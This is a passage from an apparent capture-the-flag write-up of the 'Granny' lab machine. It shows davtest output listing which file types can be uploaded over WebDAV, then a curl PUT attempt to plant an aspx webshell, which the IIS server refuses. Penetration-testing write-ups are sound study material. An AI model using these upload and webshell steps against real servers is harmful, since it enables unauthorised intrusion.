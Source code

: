 ### Web-Content Discovery

From above the endpoints that were discovered by Gobuster were unable to provide any useful endpoints which could possibly be exploited.

From the nmap scan earlier, we recall that there were dangerous methods that are enabled which could potentially upload malicious files. Now, let us use ```davtest``` to find out the type of files that we could potentially upload. From the output, we realize that we are unable to upload .aspx files, which was what we wanted.

```
/usr/bin/davtest Summary:
Created: http://granny.htb/DavTestDir_sf8bqWLfPepKPyV
PUT File: http://granny.htb/DavTestDir_sf8bqWLfPepKPyV/davtest_sf8bqWLfPepKPyV.cfm
PUT File: http://granny.htb/DavTestDir_sf8bqWLfPepKPyV/davtest_sf8bqWLfPepKPyV.html
PUT File: http://granny.htb/DavTestDir_sf8bqWLfPepKPyV/davtest_sf8bqWLfPepKPyV.jhtml
PUT File: http://granny.htb/DavTestDir_sf8bqWLfPepKPyV/davtest_sf8bqWLfPepKPyV.php
PUT File: http://granny.htb/DavTestDir_sf8bqWLfPepKPyV/davtest_sf8bqWLfPepKPyV.jsp
PUT File: http://granny.htb/DavTestDir_sf8bqWLfPepKPyV/davtest_sf8bqWLfPepKPyV.txt
PUT File: http://granny.htb/DavTestDir_sf8bqWLfPepKPyV/davtest_sf8bqWLfPepKPyV.pl
Executes: http://granny.htb/DavTestDir_sf8bqWLfPepKPyV/davtest_sf8bqWLfPepKPyV.html
Executes: http://granny.htb/DavTestDir_sf8bqWLfPepKPyV/davtest_sf8bqWLfPepKPyV.txt
```

## Exploit
### Exploiting PUT method
Let us verify if we can upload an aspx webshell using the PUT command. From the output, we can see that we are unable to upload a .aspx webshell onto the web server. 

```
┌──(kali㉿kali)-[~/Desktop]
└─$ curl -X PUT http://granny.htb/cmd.aspx -d @cmd.aspx
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
<HTML><HEAD><TITLE>The page cannot be displayed</TITLE>
<META HTTP-EQUIV="Content-Type" Content="text/html; charset=Windows-1252">
<STYLE type="text/css">
  BODY { font: 8pt/12pt verdana }
  H1 { font: 13pt/15pt verdana }
  H2 { font: 8pt/12pt verdana }
  A:link { color: red }
  A:visited { color: maroon }
</STYLE>
</HEAD><BODY><TABLE width=500 border=0 cellspacing=10><TR><TD>

<h1>The page cannot be displayed</h1>
You have attempted to execute a CGI, ISAPI, or other executable program from a directory that does not allow programs to be executed.
<hr>
<p>Please try the following:</p>
<ul>
<li>Contact the Web site administrator if you believe this directory should allow execute access.</li>
</ul>
<h2>HTTP Error 403.1 - Forbidden: Execute access is denied.<br>Internet Information Services (IIS)</h2>
```
